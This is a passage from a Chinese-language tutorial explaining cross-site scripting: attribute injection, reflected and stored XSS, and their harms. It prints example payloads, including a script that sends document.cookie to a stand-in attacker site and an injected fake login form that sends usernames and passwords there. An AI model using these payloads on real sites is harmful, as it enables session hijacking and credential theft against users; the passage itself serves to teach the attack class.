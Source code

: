 2.1 攻击原理

    假如页面有如下一个输入框

　　<input type="text" name="record" value="沙发">

　　【沙发】是来自用户的输入，如果用户输入的是"onfocus="alert(document.cookie)

　　那么就会变成 

　　<input type="text" name="address1" value="" onfocus="alert(document.cookie)">

　　 事件被触发的时候嵌入的JavaScript代码将会被执行

　　 攻击的威力，取决于用户输入了什么样的脚本。
2.2 XSS分类

1. 反射型XSS
反射型XSS，又称非持久型XSS。之所以称为反射型XSS，则是因为这种攻击方式的注入代码是从目标服务器通过错误信息、搜索结果等等方式“反射”回来的。而称为非持久型XSS，则是因为这种攻击方式具有一次性。攻击者通过电子邮件等方式将包含注入脚本的恶意链接发送给受害者，当受害者点击该链接时，注入脚本被传输到目标服务器上，然后服务器将注入脚本“反射”到受害者的浏览器上，从而在该浏览器上执行了这段脚本。

比如攻击者将如下链接发送给受害者：

http://www.targetserver.com/search.asp?input=<script>alert(document.cookie);</script>
当受害者点击这个链接的时候，注入的脚本被当作搜索的关键词发送到目标服务器的search.asp页面中，则在搜索结果的返回页面中，这段脚本将被当作搜索的关键词而嵌入。这样，当用户得到搜索结果页面后，这段脚本也得到了执行。这就是反射型XSS攻击的原理，可以看到，攻击者巧妙地通过反射型XSS的攻击方式，达到了在受害者的浏览器上执行脚本的目的。由于代码注入的是一个动态产生的页面而不是永久的页面，因此这种攻击方式只在点击链接的时候才产生作用，这也是它被称为非持久型XSS的原因

2. 存储型XSS
存储型XSS，又称持久型XSS，他和反射型XSS最大的不同就是，攻击脚本将被永久地存放在目标服务器的数据库和文件中。这种攻击多见于论坛，攻击者在发帖的过程中，将恶意脚本连同正常信息一起注入到帖子的内容之中。随着帖子被论坛服务器存储下来，恶意脚本也永久地被存放在论坛服务器的后端存储器中。当其它用户浏览这个被注入了恶意脚本的帖子的时候，恶意脚本则会在他们的浏览器中得到执行，从而受到了攻击。

2.3 XSS危害

1. 盗取cookie
通过XSS攻击，由于注入代码是在受害者的浏览器上执行，因此能够很方便地窃取到受害者的Cookie信息。比如，我们只要注入类似如下的代码：

<script>location.replace("http://www.attackpage.com/record.asp?secret="+document.cookie)</script>
当受害者的浏览器执行这段脚本的时候，就会自动访问攻击者建立的网站www.attackpage.com，打开其中的recourd.asp，将受害者浏览器的Cookie信息给记录下来。这样，攻击者就得到了用户的Cookie信息。

得到受害者的Cookie信息后，攻击者可以很方便地冒充受害者，从而拥有其在目标服务器上的所有权限，相当于受害者的身份认证被窃取了。

2. 钓鱼攻击
　所谓钓鱼攻击就是构建一个钓鱼页面，诱骗受害者在其中输入一些敏感信息，然后将其发送给攻击者。利用XSS的注入脚本，我们也可以很方便地注入钓鱼页面的代码，从而引导钓鱼攻击。比如下面这样一段代码：

<script>

　　function hack(){ 
　　　　location.replace("http://www.attackpage.com/record.asp?username="+document.forms[0].user.value + "password=" + document.forms[0].pass.value);
　　}

　　</script>
　　<form>
　　<br> <H3>此功能需要登录:</H3 > 
　　<br><br>请输入用户名：<br> 
　　<input type=”text” id=”user”name=”user”>
　　<br>请输入密码：<br>
　　<input type=”password” name =“pass”>
　　<br><input type=”submit”name=”login” value=”登录”onclick=”hack()”>
　　</form>
注入上面的代码后，则会在原来的页面上，插入一段表单，要求用户输入自己的用户名和密码，而当用户点击“登录”按钮后，则会执行hack()函数，将用户的输入发送到攻击者指定的网站上去。这样，攻击者就成功窃取了该用　户的账号信息。和一般的钓鱼攻击不同，XSS引导的钓鱼攻击由于是对用户信任的网站页面进行修改的。
